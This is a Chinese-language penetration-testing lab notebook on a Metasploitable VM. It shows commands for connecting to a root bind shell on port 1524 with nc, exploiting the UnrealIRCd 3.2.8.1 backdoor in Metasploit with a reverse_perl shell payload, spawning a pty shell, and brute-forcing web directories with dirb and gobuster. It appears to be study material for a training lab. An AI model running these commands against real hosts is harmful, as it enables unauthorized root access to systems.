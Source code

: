 - bindshell   Metasploitable root shell
    - 1524 port 看起來很怪
    - Bind Shell
        - 是在目標主機中，將 Shell (或其他執行的程式) 綁定在某一個 Port 上，執行由那個 Port 收到的指令，而攻擊者就可以建立連線後，利用對這個 Port 發送指令進而執行攻擊指令。
        - ![image](https://hackmd.io/_uploads/HkKd6ZpGyl.png)
    - nc 192.168.75.131 1524
        - 使用Netcat進行連接並獲得shell訪問
    - whoami
        - 輸出應顯示root，表明您已成功獲得目標系統的最高權限。
    - 錯誤配置導致的漏洞，通常由於用戶配置不當而發生，這種情況在現實中很少見

- UnreallRCd
    - 背景
        - 在 2009 年 11 月到 2010 年 6 月間，UnrealIRCd（一款開源的 IRC 服務器軟件）的一些鏡像站點分發了被植入惡意代碼的版本。
        - 攻擊者只需通過 IRC 客戶端發送特定格式的惡意命令，即可觸發這段代碼。
        - 受影響的伺服器會在無需身份驗證的情況下執行攻擊者指定的系統命令，從而完全控制目標伺服器。
        - 被感染的版本是 UnrealIRCd 3.2.8.1
    - sudo nmap -A -sV -p 6667 192.168.75.131
        - -A
            - 進階探測模式，這可能會獲取更詳細的版本資訊
            - 確定 UnrealIRCd 版本為 3.2.8.1
            - ![image](https://hackmd.io/_uploads/SJMNB8afkl.png)

    - search unreal ircd
        - 搜尋ircd的相關工具或攻擊payload
        - ![image](https://hackmd.io/_uploads/Bkko5fTMkl.png)
    - use exploit/unix/irc/unreal_ircd_3281_backdoor
    - show options
        - 確認參數配置
    - show payloads
        - 查看可用 payloads 
    - set payload cmd/unix/reverse_perl
        - 選擇payloads
    - set RHOSTS 192.168.75.131
        - 設置目標機 ip
    - set LHOST 192.168.75.130
        - 設定遠端主機 IP
    - run
        - ![image](https://hackmd.io/_uploads/BJdd-86f1g.png)
        - 可直接執行指令
        - id
        - whoami
        - python -c 'import pty;pty.spawn("/bin/bash")';

---

- open browser
- cd /usr/share/wordlists/dirb
    - 查看 kali中提供的 字典路徑 wordlist
- 兩個常用的網站目錄爆破工具
    - dirb
        - dirb [target][wordlist]
        - dirb http://192.168.75.131 common.txt
    - gobuster
        - 安裝
            - sudo apt update
                - 更新軟件包清單
            - sudo apt install gobuster
        - gobuster [mode] -u [target URL] -w [wordlist] [optional flags]
        - gobuster dir -u http://192.168.75.131 -w common.txt
